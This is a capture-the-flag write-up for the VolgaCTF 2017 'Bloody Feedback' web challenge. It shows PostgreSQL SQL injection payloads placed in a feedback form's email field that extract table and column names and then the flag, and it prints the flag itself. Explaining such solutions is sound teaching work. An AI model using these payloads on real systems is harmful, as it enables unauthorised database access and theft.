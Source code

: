 # Bloody Feedback
### Web 100pts

> **Bloody Feedback**
>
> Send your feedback at [bloody-feedback.quals.2017.volgactf.ru](http://bloody-feedback.quals.2017.volgactf.ru/)    
>
> DO. NOT. USE. SQLMAP    
> Otherwise your IP will be banned    

We have given a feedback form to submit name, email and message, and the email was disabled
by default.
![feedback](images/feedback.png)

After playing around a while I figured out that The feedback we submit without email
is only being displayed in Top messages. So there should be something with the email. I
opened the requested in Burp and modified the email to `test@test.com'` and I got this error
![dberror](images/dberror.png)

After googling the error I found that the database is Postgress. So I intercepted requests and
modified it using Burp.    
`name=test&email=test@test.com',(select table_name from information_schema.tables limit 1 offset 1))-- -&message=test`    
The table name was `s3cret_tabl3`    
![table](images/table.png)

`name=test&email=test@test.com',(select column_name from information_schema.columns where table_name like ('s3cret_tabl3') limit 1 offset 0))-- -&message=test`    
Column name is `s3cr3tc0lumn`    
![column](images/column.png)    

Combaining both,    
`name=test&email=test@test.com',(select s3cr3tc0lumn from s3cret_tabl3 limit 1 offset 4))-- -&message=test`    
And the flag was `VolgaCTF{eiU7UJhyeu@ud3*}`    
![flag](images/flag.png)    
